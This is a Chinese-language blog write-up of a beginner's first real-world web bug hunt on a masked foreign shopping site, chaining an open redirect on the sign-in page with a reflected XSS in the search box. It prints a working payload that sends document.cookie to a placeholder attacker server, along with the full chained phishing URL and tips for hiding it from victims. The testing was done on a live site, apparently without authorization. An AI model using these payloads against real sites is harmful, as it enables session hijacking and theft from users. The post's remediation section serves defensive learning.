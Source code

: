 
# （真实世界）我的第一次真实对国外某购物平台web漏洞挖掘

- 开放重定向 - 低危
- XSS - 低危

这两组合起来就完全不一样一点的，个人觉得比原本高一些

**危害：窃取用户敏感数据、用户cookie、钓鱼操作 等...**

## 前言

**这是我第一次，真实世界的web漏洞挖掘（开发重定向 + xss）**

**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**  
**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**  
**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**

**这次漏洞挖掘是无意的，这是我在做题的时候，题目需要我进行信息收集，我收集到相关的一个网站，于是在这个网站多看了几眼，发现了漏洞**

---

首先我打开这个网站的第一件事，也是最简单的：**查看源代码**

![在这里插入图片描述](https://img-blog.csdnimg.cn/2a17b468756548dca95cafe65ce2e7ae.png)

源代码：

![在这里插入图片描述](https://img-blog.csdnimg.cn/c2062d341aed4dc98c07d902fa12bf92.png)

在源代码中发现这一个url

---

## url参数重定向 - OpenRedirect

分析：

	/sign-in?redirect=

这里我测试过，因为这里是用户登录页面

- 如果用户未登录，则在用户登录成功后，重定向到redirect参数指定的url
- 如果用户已登录，则直接跳转到redirect参数指定的url

当我尝试修改redirect参数，改成百度：

![在这里插入图片描述](https://img-blog.csdnimg.cn/4f721858272045039d792e236ecb25be.png)

在已登录状态下，确实重定向到百度去了

---

## open redirect的好兄弟

我们都知道，单单一个开放重定向通常情况下危害不大，甚至可以忽略不计，没啥用

但是可以搭配其他漏洞来做一套组合拳，这个漏洞就是xss.

通过开放重定向漏洞将受害者重定向到被攻击者控制的具有xss漏洞的页面上，执行恶意js代码

通过这套开放重定向 + xss

攻击者很容易获得一些信息，如：

- 用户的cookie
- 攻击者期望的操作，例如：下单、修改账户等相关操作
- 社会工程 - 攻击者利用xss构建恶意代码，攻击者诱导受害者填写隐私信息以获取攻击者想要获取的受害者的信息

等等等等

---

**所以现在我们的当务之急应该寻找xss漏洞，打一套组合拳**

## XSS - 反射型

果不其然，经过tryhackme的训练，我一下子就找到了

就在网站主页的**搜索功能**！

一开始尝试sql注入，但是无果

但是第二次尝试寻找漏洞的时候，我发现输入的内容会拼接到回显页面中，于是开始尝试xss


![在这里插入图片描述](https://img-blog.csdnimg.cn/e93219f81ba84342805ec3f434356d0a.png)

它直接镶嵌到span标签中

我直接绕出去了，毫无难度，成功找到反射xss漏洞

---

## XSS + OpenRedirect - 组合拳

**兔年万事如意，心想事成**

现在我们可以尝试简单的利用xss+开放重定向获取用户的cookie

构造XSS Payload:

	https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

**注意：这里的fetch函数中的url不能携带有http://或https://，否则会失败，所以使用//**

**最好不要有空格，因为此payload稍后将会放到url参数中**

****

我们可以直接验证此payload是否有效:

![在这里插入图片描述](https://img-blog.csdnimg.cn/d0e27c9dd0364534a6fa86a1b05174c6.png)

可以看到它携带着cookie去请求攻击者托管的http服务器去了！

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed9395ed2e31404fa59b6b51898535d5.png)


现在让我们将xss和开放重定向组合起来：

实现**让用户点击我们的精心设计过的登录url，即可窃取该用户的cookie等**

### **如果通过钓鱼等方式令网站管理员点击此恶意链接会发生什么事？**

我很难想象，毕竟这个平台有些地方甚至没有csrf防护，也别忘了我们还有xss

### 回归正题

首先，随便注册个账户并登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/cc48a844fbd3461fa8d30d5f725f0576.png)

XSS Payload:

	https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

OpenRedirect Payload:

	https://www.nonno.co.uk/sign-in?redirect=https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

解析：当已登录用户点击此OpenRedirect payload的url，将重定向到xss漏洞处并执行我们指定的恶意js代码，这里的js代码使用fetch发送请求到我们攻击者的http服务器并附带cookie

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed9395ed2e31404fa59b6b51898535d5.png)

**至此漏洞利用完成，攻击者将获取受害者的cookie，甚至其他任何操作！**

**只要适当的将payload进行urlencode，受害者可能根本无法判断！**

**更进一步的利用：OpenRedirect + XSS，再加csrf等等等等，危害还能在提升**

---

## 漏洞修补建议

### OpenRedirect

- 不要使用url参数(GET or POST)来进行重定向，即便使用，也要做好防护，避免idor
- 完善各个功能的csrf防护

### XSS

- 做好用户输入检测，检测到黑名单字符直接禁止访问
- 过滤特殊字符

---

## 结束

事实上我这里只找了两个漏洞，很难猜测其他地方是否还存在其他漏洞。

希望平台管理方认真做好安全防护

这也是我的第一次真实的web漏洞挖掘，我非常的激动，这是一次无意的漏洞挖掘，真的是无意的

---

不说了，跑路了

